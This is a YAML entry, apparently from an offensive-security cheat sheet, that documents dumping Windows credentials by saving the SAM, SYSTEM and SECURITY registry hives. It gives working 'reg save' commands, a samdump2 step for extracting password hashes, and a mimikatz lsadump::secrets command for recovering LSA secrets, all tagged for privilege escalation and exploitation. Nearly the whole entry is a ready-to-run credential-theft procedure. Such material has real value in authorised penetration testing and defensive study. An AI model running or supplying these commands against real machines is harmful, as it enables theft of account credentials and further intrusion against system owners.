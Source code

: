 ```yaml
---
description: |
  The lsass Process while great, is no where neaar the only way to dump credintials from windows. One of which is access the three registry hives:
  SAM, SYSTEM, and SECURITY. This is a method that can be used to dump credentials without mimikatz as well as offer some potenial stealth.  

command: |
  # The following command will dump the SAM, SYSTEM, and SECURITY hives to the current directory.
  reg save HKLM\SAM sam.hive
  reg save HKLM\SYSTEM system.hive
  reg save HKLM\SECURITY security.hive

  #Assuming you have transfered the hives to your kali
  samdump2 system sam 

  #We can also get lsa secrets via mimikatz
  lsadump::secrets /system:c:\temp\system.hive /security:c:\temp\security.hive

items:
  - Shell
  - PrivEsc
  - Exploitation
OS:
  - Windows
  - Linux
references:
  - https://www.ired.team/offensive-security/credential-access-and-credential-dumping
  - https://www.synacktiv.com/en/publications/lsa-secrets-revisiting-secretsdump

---
```

